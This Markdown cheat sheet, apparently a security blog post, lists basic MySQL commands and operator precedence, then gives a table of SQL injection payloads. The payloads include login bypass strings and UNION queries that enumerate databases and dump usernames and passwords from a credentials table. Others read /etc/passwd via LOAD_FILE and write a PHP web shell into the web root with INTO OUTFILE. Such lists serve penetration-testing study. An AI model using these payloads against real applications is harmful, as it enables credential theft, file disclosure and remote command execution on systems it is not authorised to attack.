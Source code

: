 ```yaml
---
layout: post
category: cheatsheets
---
```


### Table of Contents

- [MySQL](#mysql)
    - [General Commands](#general-commands)
    - [Mysql Operator Precedence](#mysql-operator-precedence)
    - [SQL Injection](#sql-injection)


## [MySQL](#mysql)

| **Command**   | **Description**   |
| --------------|-------------------|
| [**General Commands**](#general-commands) |
| ```mysql -u root -h server -P 3306 -p``` | login to mysql database |
| ```SHOW DATABASES``` | List available databases |
| ```USE users``` | Switch to database |
| **Tables** |
| ```CREATE TABLE logins (id INT, ...)``` | Add a new table |
| ```SHOW TABLES``` | List available tables in current database |
| ```DESCRIBE logins``` | Show table properties and columns |
| ```INSERT INTO table_name VALUES (value_1,..)``` | Add values to table |
| ```INSERT INTO table_name(column2, ...) VALUES (column2_value, ..)``` | Add values to specific columns in a table |
| ```UPDATE table_name SET column1=newvalue1, ... WHERE <condition>``` | Update table values |
| **Columns** |
| ```SELECT * FROM table_name``` | Show all columns in a table |
| ```SELECT column1, column2 FROM table_name``` | Show specific columns in a table |
| ```DROP TABLE logins``` | Delete a table |
| ```ALTER TABLE logins ADD newColumn INT``` | Add new column |
| ```ALTER TABLE logins RENAME COLUMN newColumn TO oldColumn``` | Rename column |
| ```ALTER TABLE logins MODIFY oldColumn DATE``` | Change column datatype |
| ```ALTER TABLE logins DROP oldColumn``` | Delete column |
| **Output** |
| ```SELECT * FROM logins ORDER BY column_1``` | Sort by column |
| ```SELECT * FROM logins ORDER BY column_1 DESC``` | Sort by column in descending order |
| ```SELECT * FROM logins ORDER BY column_1 DESC, id ASC``` | Sort by two-columns |
| ```SELECT * FROM logins LIMIT 2``` | Only show first two results |
| ```SELECT * FROM logins LIMIT 1, 2``` | Only show first two results starting from index 2 |
| ```SELECT * FROM table_name WHERE <condition>``` | List results that meet a condition |
| ```SELECT * FROM logins WHERE username LIKE 'admin%'``` | List results where the name is similar to a given string |

## [MySQL Operator Precedence](#mysql-operator-precedence)
* Division (```/```), Multiplication (```*```), and Modulus (```%```)
* Addition (```+```) and Subtraction (```-```)
* Comparison (```=```, ```>```, ```<```, ```<=```, ```>=```, ```!=```, ```LIKE```)
* NOT (```!```)
* AND (```&&```)
* OR (```||```)

## [SQL Injection](#sql-injection)
| **Payload**   | **Description**   |
| --------------|-------------------|
| **Auth Bypass** |
| ```admin' or '1'='1``` | Basic Auth Bypass |
| ```admin')-- -``` | Basic Auth Bypass With comments |
| [Auth Bypass Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass) |
| **Union Injection** |
| ```' order by 1-- -``` | Detect number of columns using ```order by``` |
| ```cn' UNION select 2,2,3-- -``` | Detect number of columns using Union injection add a value everytime |
| ```cn' UNION select 1,@@version,3,4-- -``` | Basic Union injection, Find where you can return data |
| ```UNION select username, 2, 3, 4 from passwords-- -``` | Union injection for 4 columns |
| **DB Enumeration** |
| ```SELECT @@version``` | Fingerprint MySQL with query output |
| ```SELECT SLEEP(5)``` | Fingerprint MySQL with no output |
| ```cn' UNION select 1,database(),2,3-- -``` | Current database name |
| ```cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -``` | List all databases |
| ```cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -``` | List all tables in a specific database |
| ```cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -``` | List all columns in a specific table |
| ```cn' UNION select 1, username, password, 4 from dev.credentials-- -``` | Dump data from a table in another database |
| **Privileges** |
| ```cn' UNION SELECT 1, user(), 3, 4-- -``` | Find current user |
| ```cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -``` | Find if user has admin privileges |
| ```cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE user="root"-- -``` | Find if all user privileges |
| ```cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -``` | Find which directories can be accessed through MySQL |
| **File Injection** |
| ```cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -``` | Read local file |
| ```select 'file written successfully!' into outfile '/var/www/html/proof.txt'``` | Write a string to a local file |
| ```cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -``` | Write a web shell into the base web directory |